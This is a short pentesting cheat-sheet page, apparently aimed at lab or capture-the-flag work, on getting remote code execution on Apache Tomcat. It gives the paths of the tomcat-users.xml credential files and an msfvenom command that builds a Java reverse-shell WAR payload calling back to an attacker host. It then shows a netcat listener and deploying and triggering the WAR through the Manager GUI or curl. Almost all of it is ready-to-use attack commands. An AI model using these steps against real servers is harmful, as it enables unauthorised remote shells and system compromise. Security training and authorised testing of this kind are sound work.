 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["Web Exploitation", "Tomcat", "Apache", "Web Server", "War", "Java", "RCE"]
---
```


### Config Location

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

---

### RCE (Authenicated)

#### 1. Create a WAR file

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

```console {class="sample-code"}
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f war -o revshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: revshell.war
```

#### 2. Start a listener

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ..
```

{{< tab set1 tab1 >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
curl -u '<USER>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

{{< /tabcontent >}}

<br>
